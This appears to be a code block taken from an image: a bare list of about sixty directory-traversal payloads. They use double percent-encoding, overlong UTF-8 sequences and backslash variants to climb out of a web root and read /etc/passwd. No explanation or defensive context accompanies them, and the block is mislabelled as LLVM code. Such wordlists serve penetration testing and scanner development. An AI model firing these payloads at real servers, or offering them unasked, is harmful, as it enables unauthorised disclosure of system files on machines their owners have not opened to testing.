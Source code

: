 ```llvm
..%2f..%2f..%2f..%2f..%2fetc/passwd
..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
..%25c1%259cetc/passwd
..%25c1%259cetc%25c1%259cpasswd
..%25c1%259c../etc/passwd
..%25c1%259c..%25c1%259cetc/passwd
..%25c1%259c..%25c1%259cetc%25c1%259cpasswd
..%25c1%259c..%25c1%259c../etc/passwd
..%25c1%259c..%25c1%259c..%25c1%259cetc/passwd
..%25c1%259c..%25c1%259c..%25c1%259cetc%25c1%259cpasswd
..%25c1%259c..%25c1%259c..%25c1%259c../etc/passwd
..%25c1%259c..%25c1%259c..%25c1%259c..%25c1%259cetc/passwd
..%25c1%259c..%25c1%259c..%25c1%259c..%25c1%259cetc%25c1%259cpasswd
..%25c1%259c..%25c1%259c..%25c1%259c..%25c1%259c../etc/passwd
..%25c1%259c..%25c1%259c..%25c1%259c..%25c1%259c..%25c1%259cetc/passwd
..%25c1%259c..%25c1%259c..%25c1%259c..%25c1%259c..%25c1%259cetc%25c1%259cpasswd
..%25c0%25afetc/passwd
..%25c0%25afetc%25c0%25afpasswd
..%25c0%25af../etc/passwd
..%25c0%25af..%25c0%25afetc/passwd
..%25c0%25af..%25c0%25afetc%25c0%25afpasswd
..%25c0%25af..%25c0%25af../etc/passwd
..%25c0%25af..%25c0%25af..%25c0%25afetc/passwd
..%25c0%25af..%25c0%25af..%25c0%25afetc%25c0%25afpasswd
..%25c0%25af..%25c0%25af..%25c0%25af../etc/passwd
..%25c0%25af..%25c0%25af..%25c0%25af..%25c0%25afetc/passwd
..%25c0%25af..%25c0%25af..%25c0%25af..%25c0%25afetc%25c0%25afpasswd
..%25c0%25af..%25c0%25af..%25c0%25af..%25c0%25af../etc/passwd
..%25c0%25af..%25c0%25af..%25c0%25af..%25c0%25af..%25c0%25afetc/passwd
..%25c0%25af..%25c0%25af..%25c0%25af..%25c0%25af..%25c0%25afetc%25c0%25afpasswd
..%255cetc/passwd
..%255cetc%255cpasswd
..%255c../etc/passwd
..%255c..%255cetc/passwd
..%255c..%255cetc%255cpasswd
..%255c..%255c../etc/passwd
..%255c..%255c..%255cetc/passwd
..%255c..%255c..%255cetc%255cpasswd
..%255c..%255c..%255c../etc/passwd
..%255c..%255c..%255c..%255cetc/passwd
..%255c..%255c..%255c..%255cetc%255cpasswd
..%255c..%255c..%255c..%255c../etc/passwd
..%255c..%255c..%255c..%255c..%255cetc/passwd
..%255c..%255c..%255c..%255c..%255cetc%255cpasswd
..%252fetc/passwd
..%252fetc%252fpasswd
..%252f../etc/passwd
..%252f..%252fetc/passwd
..%252f..%252fetc%252fpasswd
..%252f..%252f../etc/passwd
..%252f..%252f..%252fetc/passwd
..%252f..%252f..%252fetc%252fpasswd
..%252f..%252f..%252f../etc/passwd
..%252f..%252f..%252f..%252fetc/passwd
..%252f..%252f..%252f..%252fetc%252fpasswd
..%252f..%252f..%252f..%252f../etc/passwd
..%252f..%252f..%252f..%252f..%252fetc/passwd
..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
..%%35%63etc/passwd
..%%35%63etc%%35%63passwd
..%%35%63../etc/passwd
..%%35%63..%%35%63etc/passwd
..%%35%63..%%35%63etc%%35%63passwd
```